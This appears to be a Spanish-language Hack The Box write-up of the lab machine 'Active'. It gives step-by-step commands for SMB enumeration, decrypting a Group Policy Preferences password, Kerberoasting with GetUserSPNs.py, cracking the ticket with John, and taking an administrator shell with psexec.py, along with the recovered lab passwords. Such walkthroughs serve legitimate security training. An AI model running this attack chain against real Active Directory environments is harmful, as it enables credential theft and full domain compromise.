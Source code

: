 ```yaml
---
layout:   post
title:    "Write Up Active"
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Windows,Kerberoasting,gpp-decrypt,GetUserSPNs.py,SMB,Active-Directory,Write-Up-Machine,Starting-Point,OSCP,    OSEP]
---
```

![list](/assets/img/active/active.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.10.100 -oG allports
```


El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 10.10.10.100 -oN target -Pn
```


El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Estando abierto los puertos 139 y 445 imediatamente lo que debemos hacer es tratar de explotar el smb,esto lo hacemos con crackmapexec, smbclient,smbmap entre otros.

![list](/assets/img/active/Kali-2022-09-16-23-10-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L 10.10.10.100 -N
```

{:.note}
Listamos los shares.

Con crackmapexec vemos si el smb esta firmado ademas del dominio entre ota informacion.

```bash
crackmapexec smb 10.10.10.100
```

{:.note}
El doninio es `active.htb`,lo agrgamos al `/etc/hosts`.


Los siguiente es movernos por el recurso smb o crearnos una montura pero en este caso como vemos que hay muchos recursos pero sin credenciales solo tenemos acceso al share replication el cual podemos listar o movernos dentro de el con el parametro -R recursivamente para ver todo el contenido del mismo o con -r para movernos como directorio sea como sea en este caso lo que deberemos bucar es un archivo llamado groups.xml que contenie una credecial que deberemos crackear.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-31-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como se puede observar tiene el dominio y el useraurio `active.htb\SVC_TGS` mas un hash .



Con la herramienta `gpp-decrypt` pdemos obtener la contraseña de la siguiente forma.

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

{:.note}
La contraseña es `GPPstillStandingStrong2k18`.

***
## Explotacion

Con cracmapexec verificamos si las credeciales son validas ademas podemos listar de una ves a que shres tenemos accesos,tenemos acceso a NETLOGON, Replication, SYSVOL y Users .

El unico que tiene algo interesante es el de Users el cual moviendo atraves del recurso podremos encontrar la flag user.txt o tambien podriamos decargarla a nuestra maquina con el comando.

```bash
smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --download Users/SVC_TGS/Desktop/user.txt
```

{:.note}
Un cat a user.txt y se puede ver la contraseña.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-50-08.png){:.lead width="800" height="100" loading="lazy"}

***
## Escalacion de privilegios 

Exite varias herramentas que enumeran usauarios y grupos de smb y rcp, podemos usar `lookupsid.py` y `rcpclient` pero ene ste caso utilizaremos `rcpclient`.

![list](/assets/img/active/Parrot-SO3-2022-08-18-22-50-08.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Encontramos otros tres usuarior pero nada a destacar.



Por lo anterior tenemos el dominio + un usuario + una contraseña  podemos probar un ataque [Kerberosting]

[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html

```bash
GetUserSPNs.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```
![list](/assets/img/active/Parrot-SO3-2022-08-18-23-02-30.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Debermos crackear el hash con `John The Ripper`.


```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```


{:.note}
La contraseña es`Ticketmaster1968`.

Con cracmapexec verificamos si las credeciales son validas.

```bash
crackmapexec smb 10.10.10.100 -u "Administrator" -p "Ticketmaster1968"
```

![list](/assets/img/active/Kali-2022-09-16-23-36-01.png){:.lead width="800" height="100" loading="lazy"}

Con la herramienta `psexec.py` nos conectamos a la maquina victima con el siguiente comando.


```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```

Para este punto solo debemos buscar las flags aunque la de user.txt ya la pudimos ver antes.

![list](/assets/img/active/Kali-2022-09-16-23-41-01.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag esta en el ecritorio del usuario no privilegiado.

![list](/assets/img/active/Kali-2022-09-16-23-41-58.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Active de Hack The Box. 🎉
```
{:.centered}
***
Back to [Beginner Track Active Directory](2022-09-21-Beginner-Track-AD.md){:.heading.flip-title}
{:.read-more}
